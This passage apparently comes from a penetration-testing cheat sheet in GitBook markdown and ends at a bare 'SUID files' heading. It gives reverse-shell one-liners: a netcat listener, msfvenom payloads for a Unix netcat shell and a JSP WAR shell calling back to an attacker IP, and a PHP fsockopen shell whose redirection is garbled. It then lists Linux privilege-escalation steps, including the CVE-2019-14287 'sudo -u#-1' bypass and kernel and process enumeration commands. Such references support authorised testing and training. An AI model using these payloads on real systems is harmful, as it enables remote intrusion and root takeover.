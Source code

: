 `nc -nlvp 4445`

#### Msfvenom

Unix/Linux

`msfvenom -p cmd/unix/reverse_netcat lhost=<attackerIP> lport=4444 R`

{% hint style="info" %}
**R is flagged for the raw output of the shell**
{% endhint %}

WAR/JSP

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attackerIP> LPORT=4444 -f war > shell2.war`

#### PHP

`php -r '$sock=fsockopen("attackerIP",urPort);exec("/bin/sh -i &3 2>&3");'`

### Linux Privilege Escalation

#### Sudo

First thing, **always** check sudo permissions and [subsequent ways in](https://gtfobins.github.io/)

`sudo -l`

There exists a vulnerability in **sudo** versions &lt; **1.8.28**, CVE-2019-14287. Any user can run sudo as root using the below command, _**only works**_ if you've been granted non-root sudo permissions for the command.

`sudo -u#-1 <commandOrBin>`

#### Kernel/system information

```text
uname -a
ls -la /etc | grep release
/etc/issue
/etc/*-release
/etc/lsb-release      # Debian based
/etc/redhat-release   # Redhat based
/proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```

#### Root processes

`ps aux | grep root`

#### SUID files
